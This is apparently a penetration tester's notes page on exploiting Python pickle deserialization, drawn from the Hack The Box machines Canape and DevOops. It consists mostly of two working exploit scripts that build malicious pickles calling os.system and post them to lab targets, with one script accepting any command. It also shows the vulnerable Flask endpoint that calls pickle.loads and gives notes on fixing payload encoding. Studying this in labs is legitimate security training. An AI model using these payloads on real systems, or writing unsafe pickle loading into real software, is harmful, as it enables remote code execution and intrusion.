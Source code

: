 ```yaml
---
layout: post
title: Python Pickle Deserialization
description: Python Pickle Deserialization
summary: Python Pickle Deserialization
tags: [python,deserial,foothold]
minute: 1
---
```

## Payload Format
Here is an example script I used in HTB Canape.

```python
#!/usr/bin/env python2

import requests
import pickle
import os
from hashlib import md5

class exploit(object):
  def __reduce__(self):
    return (os.system, ('echo homer && ping -c 1 10.10.14.34',))
    # THIS DOESNT WORK
    # return (os.popen, ('echo homer && ping -c 1 10.10.14.34',)) 

def dump_exploit():
  return pickle.dumps(exploit())

payload = dump_exploit()
c = payload[:-1]
q = payload[-1:]
url = 'http://10.10.10.70'

def submit():
  r = requests.post(url + '/submit', data = {'character': c, 'quote': q})

def check():
  r = requests.post(url + '/check', data = {'id': md5(c+q).hexdigest()})

submit()
check()
```

## Troubleshooting
When I did HTB Canape, my exploit didn't work when I tried to use the HTML form in firefox.

![](/spindel/assets/Python%20Pickle%20Deserialization/FF16D104-763D-42D2-BF3D-C8181797ADAA.png)

But when I tried 0xdf python [script](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#code), it worked without any issues. I looked deeply by inspecting the packet capture for both python script and browser and here is what I found out.

Left side (python script), right (firefox).

![](/spindel/assets/Python%20Pickle%20Deserialization/7A8A1D33-2216-448E-865C-B2D8D716722D.png)

Based from the capture, the python script is sending `0A` which corresponds to newline `\n` while the firefox capture is sending `5c` which corresponds to file separator `\`.

If I tried again the HTML form in Firefox this time doing actual newline instead of `\n`, the packet capture looks better but it added `0D` for carriage return. Right now, I don't have clue yet on how to remove it.

![](/spindel/assets/Python%20Pickle%20Deserialization/FFB1CBD7-E58C-4BFE-B7B7-25C0016D1223.png)

![](/spindel/assets/Python%20Pickle%20Deserialization/F3B4C80C-4063-4C05-8C08-FAD46B34E93A.png)

* In HTB DevOops, my expoit was not working because I'm trying to incude `Subject` on the actual payload. Once I removed it, exploit worked.

```python
# This fails
payload = dump_exploit()
data_str = str({'Subject': payload})
data = base64.urlsafe_b64encode(data_str)

# This worked
payload = dump_exploit()
data = base64.urlsafe_b64encode(payload)
```

## Other Examples
* HTB DevOops

```python
# Vulnerable code
@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']
```

```python
#!/usr/bin/env python2

# Usage: python2 pickle_exploit.py 'ping -c 1 10.10.14.34'

import requests
import pickle
import os
import sys
from hashlib import md5
import base64

cmd = sys.argv[1]

class exploit(object):
  def __reduce__(self):
    return (os.system, (cmd,)) 

def dump_exploit():
  return pickle.dumps(exploit())

proxies = {'http': 'http://127.0.0.1:8080'}

payload = dump_exploit()
data = base64.urlsafe_b64encode(payload)
url = 'http://10.10.10.91:5000'

def submit():
  print(payload)
  r = requests.post(url + '/newpost', data = data, proxies = proxies)
  if r.status_code == 500:
    print('Exploit failed')
  else:
    print('Exploit successful!')

submit()
```

## References
* HTB Canape
* [Python Pickle Injection](http://xhyumiracle.com/python-pickle-injection/)
* [Exploiting Insecure Deserialization bugs found in the Wild (Python Pickles)](https://macrosec.tech/index.php/2021/06/29/exploiting-insecuredeserialization-bugs-found-in-the-wild-python-pickles/)
* [Pickle Arbitrary Code Execution](https://root4loot.com/post/exploiting_cpickle/)

